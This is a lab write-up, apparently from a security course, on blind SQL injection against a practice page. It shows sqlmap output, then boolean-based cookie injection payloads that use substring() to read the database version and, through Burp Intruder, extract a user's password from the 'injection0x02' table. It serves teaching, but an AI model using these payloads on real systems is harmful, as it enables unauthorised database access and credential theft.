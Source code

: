 ### Identify SQL injectable by SQLMap

Run the application against target HTTP request, it will analyze and tell us which input is vulnerable to SQLi. 

- $ sudo sqlmap -r <Path_to_Target_File>

The result suggest all the input in the page aren’t injectable.

[12:28:49] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[12:29:06] [WARNING] POST parameter 'username' does not seem to be injectable
[12:29:06] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[12:29:07] [WARNING] POST parameter 'password' does not seem to be injectable
[12:29:07] [CRITICAL] all tested parameters do not appear to be injectable.

After learning the 1st request we captured isn’t valuable, we move on to the next request `GET /labs/i0x02.php` which contains our session cookie in the body.

Cookie: session=6967cabefd763ac1a1a88e11159957db
Response: Content-Length: 1027

Insert quote to test if we can break the structure, which gives us the same Content-Length in response.

Cokie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#
Response: Content-Length: 1027

### Substr()

Syntax: substr(string,start,length)

For instance: `substr("SQL Test",5,3)`
Extract a substring from a string, and start at position 5, extract 3 characters.

In our case, if we send `Cookie: session=<cookie>' and substring('a',1,1) = 'a'#` which will return normal Content-Length. That’s because the string the 1st character from position 1 is equal to 'a'  

So we’d like to compare the provide character with the data in the DB.

**Version Testing**

1. Send `Cookie: session=<cookie>' and substring((version()),1,1) = '8'#` which return normal Content-Length (1027). That indicates the version start with 8.
2. After testing each number of the version one by one. we retrieve the SQL version with `Cookie: session=<cookie>' and substring((version()),1,5) = '8.0.4'#` that return normal Content-Length (1027)  

### Burp Suite Intruder

Since password can be long and complex, we can utilize the Burp Intruder perform the automatic task.

1. Send the request to intruder
`Cookie: session=<cookie>' and substring((select password from injection0x02 where username = 'jeremy'),1,1) = 'payload'#`
2. Use all Alphanumeric character as payload.
